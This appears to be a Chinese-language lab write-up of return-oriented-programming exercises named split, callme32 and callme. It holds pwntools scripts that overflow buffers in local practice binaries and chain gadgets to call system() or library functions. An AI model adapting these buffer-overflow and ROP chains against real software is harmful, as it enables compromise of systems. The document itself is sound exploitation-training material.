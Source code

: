 
## split

改成 x64 嘗試

```
#!/usr/bin/env python
from pwn import *
context.arch = 'amd64'
r = process('/tmp/p/split')

system_plt = 0x4005e0
trash = 'a'*40
useful_str = 0x601060
pop_rdi_ret = 0x0000000000400883
r.sendline(trash + flat([pop_rdi_ret, useful_str, system_plt]))

r.interactive()
```

## callme32

這題一樣只開 DEP ，不過用 checksec 會看到有一個 RPATH ，它是用來指定要從哪個路徑 Load Library

在 gcc 時，可以下 ```-rpath <PATH>```

然後先看一下程式，裡面有三個函數: callme_one(), callme_two(), callme_three()

那我們用 ida pro 去看 libcallme32.so ，可以知道這三個函數都要給值1,2,3

也就是分別執行: callme_one(1,2,3)、callme_two(1,2,3)、callme_three(1,2,3) 即可

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
r = process('./callme32')

trash = 'a'*44
one_plt = 0x80485c0 
two_plt = 0x8048620
three_plt = 0x80485b0
pop3_ret = 0x080488a9
payload = trash + flat([one_plt, pop3_ret, 1, 2, 3, two_plt, pop3_ret, 1, 2, 3, three_plt,0,1,2,3])

r.sendline(payload)

r.interactive()
```

## callme

同上，只是改成 x64
